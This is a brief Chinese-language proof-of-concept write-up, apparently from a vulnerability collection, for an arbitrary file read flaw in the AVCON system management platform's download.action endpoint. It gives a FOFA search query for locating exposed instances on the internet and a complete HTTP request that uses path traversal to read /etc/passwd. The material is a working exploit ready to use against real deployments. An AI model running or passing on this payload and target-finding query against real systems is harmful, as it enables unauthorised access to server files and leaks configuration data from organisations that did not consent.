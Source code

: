 # AVCON-系统管理平台download.action存在任意文件读取漏洞

AVCON-系统管理平台download.action存在任意文件读取漏洞，通过该漏洞读取配置文件信息，造成信息泄露漏洞

## fofa

```yaml
title="AVCON-系统管理平台"
```
![image](https://github.com/user-attachments/assets/5a3ead63-e844-400a-b4c5-4cad25995358)


## poc

```java
GET /download.action?filename=../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

